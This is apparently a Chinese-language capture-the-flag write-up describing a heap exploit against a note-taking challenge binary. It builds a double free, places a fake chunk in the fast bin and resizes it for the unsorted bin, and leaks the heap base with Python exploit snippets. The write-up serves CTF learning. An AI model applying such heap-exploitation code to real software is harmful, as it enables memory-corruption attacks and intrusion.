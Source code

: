   最后，这里给出这个漏洞利用的具体实现和细节说明

  首先，我们的目标是伪造一个足够大的chunk(不在tcache的范围内，本题选择0x470)，从而释放可以直接释放到**unsorted bin**中。
  1. 伪造一个大小是0x80的fake chunk，并将其通过**double free**插入到**fast bin**的空闲链上，绕过大小检查。并且将其申请出来。
  2. 通过修改fake chunk所在的chunk的数据，将fake chunk的大小更改为0x470，此时fake chunk仍在可控内存对象中，并且其为了绕过周边检查的环境已经铺垫好
  3. 将fake chunk释放掉，则会将其释放到**unsorted bin**的链上

  由于我们会利用到**double free**，则我们首先按照前面的漏洞分析，构造一个**double free**的环境，如下代码所示
  ```python
        #leak the chunk address
        node_add(r, 0x78, 'a', 'a\n')     #0 chunk_base
        node_add(r, 0x78, 'a', 'a\n')     #1 chunk_base + 0x80
        node_add(r, 0x78, 'a', 'a\n')     #2 chunk_base + 0x80 * 2
        node_add(r, 0x78, 'a', 'a\n')     #3 chunk_base + 0x80 * 3
        node_add(r, 0x78, 'a', 'a\n')     #4 chunk_base + 0x80 * 4
        node_add(r, 0x78, 'a', 'a\n')     #5 chunk_base + 0x80 * 5
        node_add(r, 0x78, 'a', 'a\n')     #6 chunk_base + 0x80 * 6
        node_add(r, 0x78, 'a', 'a\n')     #7 chunk_base + 0x80 * 7
        node_add(r, 0x78, 'a', 'a\n')     #8 chunk_base + 0x80 * 8
        node_add(r, 0x78, p64(0) * 2 + p64(0) + p64(0x21) + p64(0) * 2 + p64(0) + p64(0x21), 'a\n')     #9 chunk_base + 0x80 * 9



        node_del(r, 8)
        node_del(r, 7)
        node_del(r, 6)
        node_del(r, 5)
        node_del(r, 4)
        node_del(r, 3)
        node_del(r, 0)                      #tcache full

        node_del(r, 9)
        node_del(r, 2)
        node_del(r, 1)
```

  此时内存中的布局如下所示
  ![内存布局1](内存布局1.PNG)

  如果我们要将伪造的chunk插入到空闲链上，首先需要知道chunk的地址。这个其实不是很困难——我们通过前面的溢出，会将`idx = 1`的chunk重新标明为未释放，则打印时会打印其内容，根据内存布局可知，会打印**base + 0x80 * 2**的值，从而我们可以获取**base**的值，即获取了整个内存布局的地址。
  与此同时，我们在利用溢出的过程中，同时在`idx = 0`的chunk上构造对应的伪造chunk，为之后将该伪造chunk插入链表中做铺垫，代码如下所示
```python
        node_add(r, 0x78, p64(0) + p64(0x21) + p64(0) * 2 + p64(0) + p64(0x81), 'a' * 0x30)      #0 chunk_base
        info = node_list(r).split('Note 1:\n  Data: ')[1].split('\n  Desc: ')[0]
        chunk_base = u64(info.ljust(8, '\x00')) - 0x80 * 2
        log.info('chunk_base => %x'%(chunk_base))
```

  此时，其内存布局如下所示
  ![内存布局2](内存布局2.PNG)
